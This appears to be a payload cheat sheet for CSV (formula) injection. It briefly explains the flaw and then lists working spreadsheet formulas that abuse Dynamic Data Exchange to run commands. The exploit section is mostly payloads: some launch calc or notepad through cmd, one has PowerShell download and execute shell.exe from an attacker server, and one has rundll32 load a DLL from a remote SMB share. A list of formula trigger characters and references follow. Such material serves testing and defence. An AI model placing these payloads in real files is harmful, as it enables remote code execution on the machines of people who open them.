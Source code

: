 # CSV Injection (Formula Injection)

Many web applications allow the user to download content such as templates for invoices or user settings to a CSV file. Many users choose to open the CSV file in either Excel,Libre Office or Open Office. When a web application does not properly validate the contents of the CSV file, it could lead to contents of a cell or many cells being executed.

## Exploit

Basic exploit with Dynamic Data Exchange

```powershell
# pop a calc
DDE ("cmd";"/C calc";"!A0")A0
@SUM(1+1)*cmd|' /C calc'!A0
=2+5+cmd|' /C calc'!A0

# pop a notepad
=cmd|' /C notepad'!'A1'

# powershell download and execute
=cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0

# msf smb delivery with rundll32
=cmd|'/c rundll32.exe \\10.0.0.1\3\2\1.dll,0'!_xlbgnm.A1
```

Technical Details of the above payload:

- `cmd` is the name the server can respond to whenever a client is trying to access the server
- `/C` calc is the file name which in our case is the calc(i.e the calc.exe)
- `!A0` is the item name that specifies unit of data that a server can respond when the client is requesting the data

Any formula can be started with

```powershell
=
+
–
@
```

## References

* [OWASP - CSV Excel Macro Injection](https://owasp.org/index.php/CSV_Excel_Macro_Injection)
* [Google Bug Hunter University - CSV Excel formula injection](https://sites.google.com/site/bughunteruniversity/nonvuln/csv-excel-formula-injection)
* [Comma Separated Vulnerabilities - James Kettle](https://www.contextis.com/resources/blog/comma-separated-vulnerabilities/)
* [CSV INJECTION: BASIC TO EXPLOIT!!!! - 30/11/2017 - Akansha Kesharwani](https://payatu.com/csv-injection-basic-to-exploit/)
* [From CSV to Meterpreter - 5th November 2015 - Adam Chester](https://blog.xpnsec.com/from-csv-to-meterpreter/)
* [CSV Injection -> Meterpreter on Pornhub - @ZephrFish Andy](https://news.webamooz.com/wp-content/uploads/bot/offsecmag/147.pdf)
* [The Absurdly Underestimated Dangers of CSV Injection - 7 October, 2017 - George Mauer](http://georgemauer.net/2017/10/07/csv-injection.html)
